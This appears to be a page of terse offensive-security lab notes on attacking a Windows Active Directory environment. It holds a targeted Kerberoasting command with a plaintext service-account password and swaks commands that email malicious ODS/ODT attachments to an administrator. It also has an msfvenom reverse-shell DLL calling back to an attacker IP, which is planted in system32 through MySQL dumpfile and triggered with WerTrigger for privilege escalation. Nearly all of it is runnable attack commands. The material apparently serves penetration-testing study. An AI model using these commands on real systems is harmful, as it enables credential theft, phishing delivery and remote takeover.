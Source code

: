 ```bash
source /opt/windows/targetedKerberoast/venv/bin/activate
python /opt/windows/targetedKerberoast/targetedKerberoast.py -d $dom -u 'hrapp-service' -p 'Untimed$Runny' --dc-ip $ip
```

#### Malicious email

```bash
python /opt/mmg-ods.py windows 192.168.45.178 80
sudo swaks -t mailadmin@localhost --from jonas@localhost --attach @file.ods --server 192.168.218.140 --body body.txt --header "Subject: Staging Script"
```
```
sudo swaks -t neil@bratarina --from _smtpd@COFFEECORP --attach @bad.odt --server $ip --body body.txt --header "Subject: Staging Script"
```
https://github.com/gtworek/Priv2Admin
https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet?tab=readme-ov-file#kerberoast
https://github.com/bitsadmin/wesng

#### WerTrigger

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.231 LPORT=6969 -f dll > phoneinfo.dll

# Place files into system32 as an administrator
select load_file('C:\\xampp\\htdocs\\phoneinfo.dll') into dumpfile 'C:\\Windows\\system32\\phoneinfo.dll';
select load_file('C:\\xampp\\htdocs\\Report.wer') into dumpfile 'C:\\Windows\\system32\\Report.wer';
select load_file('C:\\xampp\\htdocs\\WerTrigger.exe') into dumpfile 'C:\\Windows\\system32\\WerTrigger.exe';

cd C:\windows\system32
.\WerTrigger.exe
```